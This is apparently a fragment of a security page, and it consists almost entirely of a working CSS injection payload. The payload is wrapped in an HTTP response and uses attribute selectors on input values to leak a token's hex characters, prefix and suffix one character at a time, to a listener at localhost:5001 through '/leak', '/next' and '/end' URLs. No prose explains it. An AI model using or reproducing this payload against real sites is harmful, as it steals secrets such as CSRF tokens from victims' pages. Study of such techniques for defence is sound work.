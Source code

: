 ```javascript
input[value=]{list-style:url(http://localhost:5001/end?token=&)};
*/

/*
HTTP/1.1 200 OK
Content-Type: text/css
Date: Fri, 01 Apr 2022 14:35:39 GMT
Connection: close
Content-Length: 2149

@import url(http://localhost:5001/next?0.7834603960990516);
input[value$="0"]{--e0:url(http://localhost:5001/leak?post=0)}
input[value$="1"]{--e0:url(http://localhost:5001/leak?post=1)}
input[value$="2"]{--e0:url(http://localhost:5001/leak?post=2)}
input[value$="3"]{--e0:url(http://localhost:5001/leak?post=3)}
input[value$="4"]{--e0:url(http://localhost:5001/leak?post=4)}
input[value$="5"]{--e0:url(http://localhost:5001/leak?post=5)}
input[value$="6"]{--e0:url(http://localhost:5001/leak?post=6)}
input[value$="7"]{--e0:url(http://localhost:5001/leak?post=7)}
input[value$="8"]{--e0:url(http://localhost:5001/leak?post=8)}
input[value$="9"]{--e0:url(http://localhost:5001/leak?post=9)}
input[value$="a"]{--e0:url(http://localhost:5001/leak?post=a)}
input[value$="b"]{--e0:url(http://localhost:5001/leak?post=b)}
input[value$="c"]{--e0:url(http://localhost:5001/leak?post=c)}
input[value$="d"]{--e0:url(http://localhost:5001/leak?post=d)}
input[value$="e"]{--e0:url(http://localhost:5001/leak?post=e)}
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
input{background:var(--e0)}
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}
input[value^="1"]{--s0:url(http://localhost:5001/leak?pre=1)}
input[value^="2"]{--s0:url(http://localhost:5001/leak?pre=2)}
input[value^="3"]{--s0:url(http://localhost:5001/leak?pre=3)}
input[value^="4"]{--s0:url(http://localhost:5001/leak?pre=4)}
input[value^="5"]{--s0:url(http://localhost:5001/leak?pre=5)}
input[value^="6"]{--s0:url(http://localhost:5001/leak?pre=6)}
input[value^="7"]{--s0:url(http://localhost:5001/leak?pre=7)}
input[value^="8"]{--s0:url(http://localhost:5001/leak?pre=8)}
input[value^="9"]{--s0:url(http://localhost:5001/leak?pre=9)}
input[value^="a"]{--s0:url(http://localhost:5001/leak?pre=a)}
input[value^="b"]{--s0:url(http://localhost:5001/leak?pre=b)}
input[value^="c"]{--s0:url(http://localhost:5001/leak?pre=c)}
input[value^="d"]{--s0:url(http://localhost:5001/leak?pre=d)}
input[value^="e"]{--s0:url(http://localhost:5001/leak?pre=e)}
input[value^="f"]{--s0:url(http://localhost:5001/leak?pre=f)}
input{border-image:var(--s0)}
input[value=]{list-style:url(http://localhost:5001/end?token=&)};
*/
```
{% endcode %}

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>
